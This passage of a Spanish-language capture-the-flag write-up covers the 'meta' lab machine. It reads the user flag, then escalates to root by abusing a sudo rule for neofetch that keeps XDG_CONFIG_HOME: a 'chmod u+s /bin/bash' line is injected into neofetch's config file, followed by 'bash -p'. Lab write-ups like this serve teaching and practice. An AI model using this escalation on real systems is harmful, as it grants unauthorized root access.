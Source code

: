 ```bash
thomas@meta:~$ 
```
¡Hemos tenido acceso con el usuario Thomas!
Ahora vamos a proceder con la lectura de nuestra primera flag.

```bash
thomas@meta:~$ head -c 10 user.txt; echo
74f2b57ad0
```

¡Genial! Solo nos queda escalar privilegios para lograr obtener la flag de root, iniciamos con la enumeración de comandos y variables permitidas bajo el comando sudo.

## ESCALADA DE PRIVILEGIOS

```bash
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

Luego de investigar, encontramos que la variable XDG_CONFIG_HOME es potencial vector de escalamiento junto con el comando neofetch.

* Entramos al a ruta `~/.config/neofetch`
* Ingresamos al fichero `config.conf` 
* Agregamos la siguiente línea dando permisos suid a `/bin/bash`
* Asignamos la ruta modificada a la variable `XDG_CONFIG_HOME`
* Ejecutamos el comando `neofetch` como sudo
* Revisamos los permisos suid de `/bin/bash`
* Ejecutamos el comando `bash -p` para tener acceso privilegiado a la maquina

```bash
thomas@meta:~/.config/neofetch$ nano config.conf 

chmod u+s /bin/bash

thomas@meta:~/.config/neofetch$ export XDG_CONFIG_HOME=/home/thomas/.config/

thomas@meta:~/.config/neofetch$ sudo neofetch
       _,met$$$$$gg.          root@meta 
    ,g$$$$$$$$$$$$$$$P.       --------- 
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64 
 ,$$P'              `$$$.     Host: VMware Virtual Platform None 
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64 
`d$$'     ,$P"'   .    $$$    Uptime: 19 hours, 15 mins 
 $$P      d$'     ,    $$P    Packages: 495 (dpkg) 
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3 
 $$;      Y$b._   _,d$P'      CPU: Intel Xeon Gold 5218 (2) @ 2.294GHz 
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter 
 `$$b      "-.__              Memory: 167MiB / 1994MiB 
  `Y$$
   `Y$$.                                              
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""

thomas@meta:~/.config/neofetch$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash


```